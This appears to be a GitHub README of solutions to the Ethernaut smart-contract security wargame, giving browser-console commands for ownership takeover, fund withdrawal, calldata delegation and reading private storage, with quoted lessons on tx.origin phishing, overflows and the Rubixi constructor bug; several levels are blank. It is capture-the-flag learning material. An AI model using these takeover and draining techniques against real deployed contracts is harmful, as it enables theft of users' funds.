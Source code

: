# ethernaut-solution


1.Hello Ethernaut
<!-- "0xeF08E3A4FF2e36f81D0a746947C4bd68BB1A67e9" -->
 await contract.password()
 await contract.authenticate('ethernaut0')

2.Fallback
<!-- 0x12c6202f6911b88781c04986F4aB65e58b9A0585 -->
    1. Contribute some amount of ETH using contribute() function
    await contract.contribute.sendTransaction({value:toWei(".00001")})
    2. Send some eth to the contract (CALLDATA) for receive() method will triggered and has to be require condtion satisfied too 
        and change the owner too when receive() will be triggered
    await contract.sendTransaction({value:toWei(".0001")})
    3. withdraw call to reduce its balance to 0
    await contract.withdraw()

3.Fallout
<!-- 0x1D34c5e3320f5D9bc5fC8079685C5F2fb1a54B8f -->
await contract.Fal1out()

    That was silly wasn't it? Real world contracts must be much more secure than this and so must it be much harder to hack them right?

    Well... Not quite.

    The story of Rubixi is a very well known case in the Ethereum ecosystem. The company changed its name from 'Dynamic Pyramid' to 'Rubixi' but somehow they didn't rename the constructor method of its contract:

    contract Rubixi {
    address private owner;
    function DynamicPyramid() { owner = msg.sender; }
    function collectAllFees() { owner.transfer(this.balance) }
    ...
    This allowed the attacker to call the old constructor and claim ownership of the contract, and steal some funds. Yep. Big mistakes can be made in smartcontractland.

4. Coin Flip
    Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have control over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

    To get cryptographically proven random numbers, you can use Chainlink VRF, which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

    Some other options include using Bitcoin block headers (verified through BTC Relay), RANDAO, or Oraclize).

5.Telephone
<!-- 0xb17c2d73Bb8FfBF052a2d441ef6758285eabFCa8 -->
    While this example may be simple, confusing tx.origin with msg.sender can lead to phishing-style attacks, such as this.

    An example of a possible attack is outlined below.

    1.Use tx.origin to determine whose tokens to transfer, e.g.
        function transfer(address _to, uint _value) {
            tokens[tx.origin] -= _value;
            tokens[_to] += _value;
        }
    2.Attacker gets victim to send funds to a malicious contract that calls the transfer function of the token contract, e.g.
        function () payable {
            token.transfer(attackerAddress, 10000);
        }
    
    3.In this scenario, tx.origin will be the victim's address (while msg.sender will be the malicious contract's address),
      resulting in the funds being transferred from the victim to the attacker. 


6.Token
<!-- 0xC16237e24c6A1377b8A0a41e520c7D1E5c122863 -->
    await contract.transfer("address",21)

    Overflows are very common in solidity and must be checked for with control statements such as:

    if(a + c > a) {
    a = a + c;
    }
    An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

    a = a.add(c);
    If there is an overflow, the code will revert.

7.Delegate
<!-- 0xE1F15e570836872154aaaF1aA4B2D867c0b0264c -->
abi.encodeWithSignature("pwn()") is dd365b8b

await contract.sendTransaction({from: player, data: "dd365b8b"})

8 Forse
<!-- 0x32f8DCA769F10B9466b71f3FCBd3EC7258700c1a -->

    In solidity, for a contract to be able to receive ether, the fallback function must be marked payable.

    However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant address(this).balance == 0 for any contract logic.

9 Vault
<!-- 0xdFF1a558c01ee357a27E1AbF825d4bCfD6a00C9B -->
web3.eth.getStorageAt(contractAddress, 1, (e, v) => console.log(web3.utils.toAscii(v)));
web3.eth.getStorageAt(contractAddress, 1)
await contract.unlock(web3.eth.getStorageAt(contractAddress, 1))
    or
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29')

10 King
<!-- 0x6848C1951fB6bb65d5168B2609820DEB3F6b4b48 -->

11

12 Elevator
<!-- 0x6Cf4882c86753a32B03c9343Ba80B3A6f5BB6117 -->
    You can use the view function modifier on an interface in order to prevent state modifications. The pure modifier also prevents functions from modifying the state. Make sure you read Solidity's documentation and learn its caveats.

    An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. gasleft().

13 Privacy
<!-- 0x55E4Ef0F53b13AbF16384827dAD6C385ce5c58b7 -->

 const keyData = await web3.eth.getStorageAt(contract.address, 5, console.log)

 const key16 = keyData.slice(0, 34)

 14 GatekeeperOne


 16
 NaughtCoin
 <!-- 0x53732c8ef2867d6855598ACD7D7aBd0C48Cc0637 -->

For this challenge, you need to be familiar with ERC20 tokens and their functions. The challenge consists of a lockup contract inheriting from ERC20 tokens. Its transfer function has been overwritten to check that one can only withdraw tokens after some time has passed. However, transfer is not the only function in ERC20 that allows for moving tokens. We can combine allow and transferFrom to transfer tokens. Both functions exist on the lockup contract in their original form due to inheritance and have not been explicitly overwritten.


 When using code that's not your own, it's a good idea to familiarize yourself with it to get a good understanding of how everything fits together. This can be particularly important when there are multiple levels of imports (your imports have imports) or when you are implementing authorization controls, e.g. when you're allowing or disallowing people from doing things. In this example, a developer might scan through the code and think that transfer is the only way to move tokens around, low and behold there are other ways of performing the same operation with a different implementation.


 22 Shop
 
 Contracts can manipulate data seen by other contracts in any way they want.

 It's unsafe to change the state based on external and untrusted contracts logic.